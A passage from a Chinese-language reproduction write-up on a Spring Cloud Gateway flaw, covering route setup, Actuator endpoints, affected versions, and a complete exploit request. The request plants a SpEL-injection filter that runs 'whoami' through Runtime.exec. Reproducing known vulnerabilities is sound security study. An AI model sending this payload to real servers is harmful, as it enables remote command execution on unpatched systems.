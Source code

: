   ```java
          return routeLocatorBuilder.routes()
                  .route("test", r -> r.path("/test/**").filters(f -> f.rewritePath("/test(?<path>.*)", "/${path}")).uri("https://www.baidu.com"))
                  .route("get", r -> r.path("/get/**").filters(f -> f.addRequestHeader("X-Gateway-Test", "Foo")).uri("https://httpbin.org")).build();
      }
  }
  ```

####  Actuator 操作 Gateway 的接口

`http://localhost:xxxx/actuator/gateway/{id}`

| id              | HTTP Method | 描述                 |
| --------------- | ----------- | -------------------- |
| `globalfilters` | GET         | 返回全局 filter 列表 |
| `routefilters`  | GET         | 每个路由的 filter    |
| `routes`        | GET         | 路由列表             |
| `routes/{id}`   | GET         | 指定路由的信息       |
| `routes/{id}`   | POST        | 创建路由             |
| `routes/{id}`   | DELETE      | 删除路由             |
| `refresh`       | POST        | 刷新路由缓存         |

## 漏洞复现

### 影响范围

- Spring Cloud Gateway < 3.1.1
- Spring Cloud Gateway < 3.0.7

1. 启动 `Spring Cloud Gateway` 服务（为了效果，服务中已经默认定义了两个路由，分别是 `test` 和 `get`）

2. 发送 `POST` 请求添加过滤器（以 `bp` 的 `repeater` 为例来发送请求）

   ```
   POST /actuator/gateway/routes/hacktest HTTP/1.1
   Host: localhost:9998
   Accept-Encoding: gzip, deflate
   Accept: */*
   Accept-Language: en
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
   Connection: close
   Content-Type: application/json
   Content-Length: 329
   
   {
     "id": "hello",
     "filters": [{
       "name": "AddResponseHeader",
       "args": {
         "name": "Result",
         "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
       }
     }],
     "uri": "http://example.com"
   }
   ```
